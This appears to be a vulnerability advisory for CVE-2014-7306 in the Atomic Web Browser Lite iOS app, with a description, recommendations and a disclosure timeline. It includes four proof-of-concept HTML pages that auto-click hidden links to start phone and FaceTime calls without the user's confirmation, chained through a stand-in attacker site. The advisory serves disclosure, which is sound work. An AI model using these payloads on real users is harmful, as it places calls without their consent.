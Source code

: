 ## CVE-2014-7306 


|Title          |Issue with Tel, FaceTime and Facetime-Audio URL Schemes on Atomic Lite|
----------------------- | --- |
|**Affected Vendor:** |RichText Web Site  |
|**Affected Software:** |Atomic Web Browser Lite |
|**Affected Version:** | 7.0.1 or below |
|**Issue Type:** | Lack of user confirmation leading to Telephone, FaceTime and Facetime Audio calls being arbitrarily initialized by an attacker.|
|**Release Date:** | October 13, 2014 |
|**Discovered by:** | Matias P. Brutti - @S9Labs |
|**CVE Identifier:** | CVE-2014-7306 |
|**Issue Status:** | No response provided as of 10/13/2014. Still vulnerable. |


##### Description

Using the same technique deployed by Andrei Neculaesei ( link:  http://algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc) to bypass some iOS applications including G+, Facebook, Hangouts, among others to launch phone calls automatically without permission.  By looking for a way to also exploit this directly on Messages which according to the author of the other vulnerabilities was not possible, we found that it was possible to attack people by jumping from the default Safary browser WebView using browsers url handlers. 

We found that Mercury Browser had a known atomiclite:// URL handler which might helps us make the jump from Messages to a vulnerable browser for exploitation. Atomic Lite --Atomic Full was not tested, we are asuming same code base is used, only difference is url handler being atomic://, this vulnerability it is only meant for Atomic Lite-- is vulnerable to 3 attacks including making arbitrary telephone calls, arbitrary FaceTime and arbitrary FaceTime audio calls. 

Both browsers are vulnerable because the developer while writing the code did not correctly handle **webView:shouldStartLoadWithRequest:navigationType:** to prompt users before initializing the calls. 

##### Proof of Concept

For example if using Messages, An attcker could easily send a link friendly link to a malicious or compromised website (i.e http://evilrovot.com/atomic.html). Knowing that Safari will *not* open tel:// directly and it will pop-up a message, a two step approach is needed using the atomiclite:// URL handler to open a new Atomic Lite window on a new page which will trigger the vulnerability on http://evilrovot.com/tel.html. 

[ APP RECEIVING LINK ] --> [ SAFARI ] --> [ ATOMIC LITE ] --> [ TEL ] 

Code for this files is as follow:

atomic.html
```html
<html>
<body>
<a id="callme" href="atomiclite://evilrovot.com/tel.html" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```

tel.html
```html
<html>
<body>
<a id="callme" href="tel://+0000" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```

test.html
```html
<html>
<body>
<a id="callme" href="facetime://+0000" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```

ft_audio.html
```html
<html>
<body>
<a id="callme" href="facetime-audio://+0000" style="display:none">click</a>
<script>
var t = document.getElementById("callme");
var fe = document.createEvent("MouseEvents");
fe.initEvent("click", true, true);
t.dispatchEvent(fe);
</script>
</body>
</html>
```
##### Recommendations
The ideal behavior should be that it triggers a pop-up asking the user wether he/she wants to start a Tel or FaceTime-Audio conversation with the number in question.

##### Timeline
```
9/22 — Email sent to atomicbrowser@gmail.com informing of vulnerability
10/13 — No response provided to date. 
10/13 — Vulnerability made public. 
```

##### Full Write-Up
[https://medium.com/section-9-lab/paid-apps-do-come-with-a-price-bc0533a94ff9](https://medium.com/section-9-lab/paid-apps-do-come-with-a-price-bc0533a94ff9)

